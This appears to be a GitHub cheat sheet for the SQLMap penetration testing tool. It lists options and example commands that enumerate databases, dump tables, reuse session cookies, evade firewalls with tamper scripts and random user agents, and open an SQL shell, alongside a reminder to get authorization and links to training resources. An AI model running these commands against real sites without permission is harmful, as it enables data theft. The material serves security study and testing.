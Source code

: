 ## What is SQLMap?

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in database systems. It is widely used by security professionals to perform ethical hacking and vulnerability assessments. 

### Uses of SQLMap:
- Detect and exploit SQL injection vulnerabilities in web applications.
- Retrieve information from the database such as tables, columns, and data.
- Bypass web application firewalls (WAF) and filters using tamper scripts.
- Automate SQL injection testing for large-scale assessments.
- Extract sensitive data like user credentials or confidential records.
- Test and validate the security of database-driven applications.
- Gain insights into the database structure for further analysis.

## Common Options

- `--dbs` : **List all databases** present. Use this to see the databases available on the target server.
- `--banner` : **Retrieve the database version**. Helps identify the DBMS type and version.
- `--batch` : **Automate the process** (SQLMap won't prompt for user inputs). Useful for running SQLMap in non-interactive mode.
- `--tables` : **Get table names** in the current or specified database. Helpful for discovering the schema.
- `-D <database>` : **Specify a database** to target. Used in conjunction with other options to focus on a specific database.
- `-t <table>` : **Specify a table** to target.
- `--dump-all` : **Dump all data** from the specified table or database. Extracts information from the database.
- `--cookie <cookie>` : **Specify cookie information** (e.g., for authentication). Obtain the cookie by inspecting the web element in your browser.
- `--wizard` : **Enable a user-friendly interface**. Great for beginners who want step-by-step guidance.
- `--list-tamper` : **List available tamper scripts**. Shows tampering modules to evade detection or bypass filters.
- `--random-agent` : **Use a random user agent**. Helps disguise SQLMap requests as originating from various devices or browsers.
- `--tamper <module>` : **Enable a tamper module** to bypass WAF/filters. For example, to obfuscate SQL queries.
- `--mobile` : **Simulate a mobile device**. Useful for websites that serve different content based on the user agent.
- `--crawl <level>` : **Crawl for links** related to the provided URL. Levels can be 1, 2, or 3 for increasing depth.
- `--columns` : **List column names** of a table. Useful to understand the structure of a table.
- `--count` : **Count the total number of records** in a table. Helps gauge the amount of data.

## Commonly Used SQLMap Commands

1. `sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`  
   **List all databases** available on the target.

2. `sqlmap -u "http://example.com/vulnerable.php?id=1" -D <database_name> --tables`  
   **Retrieve table names** from the specified database.

3. `sqlmap -u "http://example.com/vulnerable.php?id=1" -D <database_name> -T <table_name> --columns`  
   **List columns** from the specified table.

4. `sqlmap -u "http://example.com/vulnerable.php?id=1" -D <database_name> -T <table_name> --dump`  
   **Dump all data** from the specified table.

5. `sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="SESSIONID=abcdef" --dbs`  
   **Include a cookie** to access authenticated pages.

6. `sqlmap -u "http://example.com/vulnerable.php?id=1" --wizard`  
   **Use wizard mode** for guided execution.

7. `sqlmap -u "http://example.com/vulnerable.php?id=1" --mobile`  
   **Simulate requests from a mobile device.**

8. `sqlmap -r req.txt --dbs --random-agent`  
   **Use an HTTP request file** (e.g., captured by tools like Burp Suite) to target specific requests with a random user agent.

## SQL Shell Options

- `--sql-shell` : **Open an interactive SQL shell**. Allows running SQL queries directly on the database.

### Common SQL Commands in Shell

1. `database();`  
   **Retrieve database information** like the current database name.

2. `SELECT table_name FROM information_schema.tables WHERE table_schema = 'database_name';`  
   **List table names** in the specified database. Useful for exploring database schemas.

3. `SELECT * FROM database_name.table_name;`  
   **Retrieve all records** from the specified table. Be cautious, as large tables may return significant amounts of data.

4. `x`  
   **Exit the SQL shell**. Ends the interactive SQL session.

---

### Key Notes:
- Always check for authorization before testing a website to ensure ethical use.
- Combine multiple options (e.g., `-D`, `--tables`, `--columns`) for targeted attacks to minimize noise.
- Use tamper scripts wisely to bypass advanced protections or obfuscate queries.

## More Learning

For further learning about SQLMap and SQL injection, check out the following resources:

- [SQLMap Official Documentation](https://sqlmap.org/documentation/)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
- [TryHackMe SQLMap Room](https://tryhackme.com/room/sqlmap)
- [PentesterLab SQL Injection Exercises](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
- [SQLMap Advaced Commands]([https://book.hacktricks.xyz/pentesting-web/sql-injection](https://medium.com/@exploitheaven/mastering-sqlmap-advanced-commands-for-ethical-hacking-e53d599575f8))
